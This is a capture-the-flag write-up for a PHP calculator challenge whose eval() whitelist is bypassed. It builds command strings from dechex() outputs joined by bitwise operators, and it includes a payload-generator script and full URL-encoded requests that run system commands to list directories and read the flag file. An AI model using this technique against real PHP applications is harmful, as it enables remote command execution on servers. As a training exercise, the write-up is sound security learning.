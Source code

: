 # Calc.exe Online
**Category: Web** 

This challenge presents a calculator application where user provided expressions get evaluated:

![site](images/site.PNG)

## Exploring the Application

Looking at the page source, there is an anchor element that doesn't render on the page:
```html
<a href="/?source"></a>
```

The full source can be seen [here](source.html).

The important parts to calculate the expression are below:

```html
<div class="card-content">
    = <?= @safe_eval($_GET['expression']) ?>
</div>
```

```php
function safe_eval($code)
{
    if (strlen($code) > 1024) return "Expression too long.";
    $code = strtolower($code);
    $bad = is_safe($code);
    $res = '';
    if (strlen(str_replace(' ', '', $bad)))
        $res = "I don't like this: " . $bad;
    else
        eval('$res=' . $code . ";");
    return $res;
}
```
If our input passes some sanity checks and the `is_safe` check, it gets run through an `eval` function, and then rendered on the page. Since `eval` will run php commands, we will want to find a way of getting some system commands to run here.

```php
function is_safe($query)
{
    $query = strtolower($query);
    preg_match_all("/([a-z_]+)/", $query, $words);
    $words = $words[0];
    $good = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'ncr', 'npr', 'number_format'];
    $accept_chars = '_abcdefghijklmnopqrstuvwxyz0123456789.!^&|+-*/%()[],';
    $accept_chars = str_split($accept_chars);
    $bad = '';
    for ($i = 0; $i < count($words); $i++) {
        if (strlen($words[$i]) && array_search($words[$i], $good) === false) {
            $bad .= $words[$i] . " ";
        }
    }

    for ($i = 0; $i < strlen($query); $i++) {
        if (array_search($query[$i], $accept_chars) === false) {
            $bad .= $query[$i] . " ";
        }
    }
    return $bad;
}
```
This function ensures that our input is only made up using a whitelist of math functions. Also that the input only uses approved characters. We need a way of running system commands that can be hidden within this whitelist.

## Designing an Exploit
I looked at the whitelist of functions and noticed that some of them return strings. For example: `dechex(10) = 'a'`. The approved character list grants us several bitwise operators that can be used (in addition to their math purpose) to transform strings into other strings. For example: `dechex(10)|dechex(3) = "s"`. The outputs from these functions can be concatenated with the "`.`" operator.

I wrote a program to generate arbitrary characters using this idea:

```php
<?php
$max = 15;
$result = array();
for ($i = 0; $i < $max; $i++) {
    for ($j = 0; $j < $max; $j++) {
        for ($k = 0; $k < $max; $k++) {
            $char = dechex($i) | dechex($j) | dechex($k);
            if (array_key_exists($char, $result) || preg_match('/[^\x20-\x7e]/', $char)) {
                continue;
            }
            echo '"' . $char . '": ' . '"(dechex('.$i.')|dechex('.$j.')|dechex('.$k.'))",' . PHP_EOL;
            $result[$char] = 1;
        }
    }
}
?>
```

```sh
$ php characters.php
"0": "(dechex(0)|dechex(0)|dechex(0))",
"1": "(dechex(0)|dechex(0)|dechex(1))",
"2": "(dechex(0)|dechex(0)|dechex(2))",
"3": "(dechex(0)|dechex(0)|dechex(3))",
"4": "(dechex(0)|dechex(0)|dechex(4))",
"5": "(dechex(0)|dechex(0)|dechex(5))",
"6": "(dechex(0)|dechex(0)|dechex(6))",
"7": "(dechex(0)|dechex(0)|dechex(7))",
"8": "(dechex(0)|dechex(0)|dechex(8))",
"9": "(dechex(0)|dechex(0)|dechex(9))",
"q": "(dechex(0)|dechex(0)|dechex(10))",
"r": "(dechex(0)|dechex(0)|dechex(11))",
"s": "(dechex(0)|dechex(0)|dechex(12))",
"t": "(dechex(0)|dechex(0)|dechex(13))",
"u": "(dechex(0)|dechex(0)|dechex(14))",
":": "(dechex(0)|dechex(2)|dechex(8))",
";": "(dechex(0)|dechex(2)|dechex(9))",
"v": "(dechex(0)|dechex(2)|dechex(13))",
"w": "(dechex(0)|dechex(2)|dechex(14))",
"<": "(dechex(0)|dechex(4)|dechex(8))",
"=": "(dechex(0)|dechex(4)|dechex(9))",
">": "(dechex(0)|dechex(6)|dechex(8))",
"?": "(dechex(0)|dechex(6)|dechex(9))",
"y": "(dechex(0)|dechex(8)|dechex(10))",
"z": "(dechex(0)|dechex(8)|dechex(11))",
"{": "(dechex(0)|dechex(8)|dechex(12))",
"|": "(dechex(0)|dechex(8)|dechex(13))",
"}": "(dechex(0)|dechex(8)|dechex(14))",
"~": "(dechex(2)|dechex(8)|dechex(13))",
"a": "(dechex(10)|dechex(10)|dechex(10))",
"c": "(dechex(10)|dechex(10)|dechex(11))",
"e": "(dechex(10)|dechex(10)|dechex(13))",
"g": "(dechex(10)|dechex(11)|dechex(13))",
"b": "(dechex(11)|dechex(11)|dechex(11))",
"f": "(dechex(11)|dechex(11)|dechex(13))",
"d": "(dechex(13)|dechex(13)|dechex(13))",
```

By updating the program to use all the different bitwise operators, I could generate a JSON file that I could reference later to create any payloads that I specify.

I wrote a program to read this file and create any payload I needed, hidden within math functions:

```python
#!/usr/bin/env python3

import json
import sys
import urllib.parse

if len(sys.argv) - 1 < 1:
    print('A command must be specified')
    exit(1)

payload = ''

with open('./chars.json') as chars_file:
    chars = json.load(chars_file)
    
    for index, char in enumerate(sys.argv[1]):
        if index != 0:
            payload += '.'
          
        payload += chars[char]
        payload += ''

    print(f"Payload:\n({payload})")
    print(f"URL Encoded:\n({urllib.parse.quote(payload)})")

```

The first thing I wanted to run was `system(ls)`. 

```sh
$ ./payload_generator.py 'system'
Payload:
((dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(0)|dechex(8)^dechex(10)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(0)|dechex(0)^dechex(13)).(dechex(10)&dechex(10)|dechex(0)^dechex(4)).(dechex(10)&dechex(10)|dechex(4)^dechex(8)))
URL Encoded:
(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)

$ ./payload_generator.py 'ls'    
Payload:
((dechex(10)&dechex(11)|dechex(4)^dechex(8)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)))
URL Encoded:
(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29)
```

Putting the two outputs together, I can make this GET request to list the files:

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29)
```
```html
<div class="card-content">
= index.php
index.php                    
</div>
```

No flag file. The flag may be in `/` instead.

```sh
./payload_generator.py 'ls /'
Payload:
((dechex(10)&dechex(11)|dechex(4)^dechex(8)).(dechex(0)&dechex(0)|dechex(0)^dechex(12)).(dechex(0)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(10)|dechex(6)^dechex(9)))
URL Encoded:
(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29)
```

I can replace the part of the GET request that corresponded with the original `ls` argument with this new output to `ls /`:

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2811%29%7Cdechex%284%29%5Edechex%288%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29)
```
```html
<div class="card-content">
= bin
boot
dev
etc
flag_a2647e5eb8e9e767fe298aa012a49b50
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var                    
</div>
```

And finally, we can read the flag by generating a payload to run `cat /f*`.

```sh
$ ./payload_generator.py 'cat /f*'
Payload:
((dechex(10)&dechex(10)|dechex(0)^dechex(2)).(dechex(10)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(0)|dechex(0)^dechex(13)).(dechex(0)&dechex(10)|dechex(0)^dechex(0)).(dechex(0)&dechex(10)|dechex(6)^dechex(9)).(dechex(10)&dechex(11)|dechex(0)^dechex(6)).(dechex(0)&dechex(10)|dechex(2)^dechex(8)))
URL Encoded:
(%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%282%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29.%28dechex%2810%29%26dechex%2811%29%7Cdechex%280%29%5Edechex%286%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%282%29%5Edechex%288%29%29)
```

```
GET /?expression=(%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%288%29%5Edechex%2810%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2812%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%284%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%284%29%5Edechex%288%29%29)(%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%282%29%29.%28dechex%2810%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%280%29%7Cdechex%280%29%5Edechex%2813%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%280%29%5Edechex%280%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%286%29%5Edechex%289%29%29.%28dechex%2810%29%26dechex%2811%29%7Cdechex%280%29%5Edechex%286%29%29.%28dechex%280%29%26dechex%2810%29%7Cdechex%282%29%5Edechex%288%29%29)
```
```html
<div class="card-content">
= flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
</div>
```
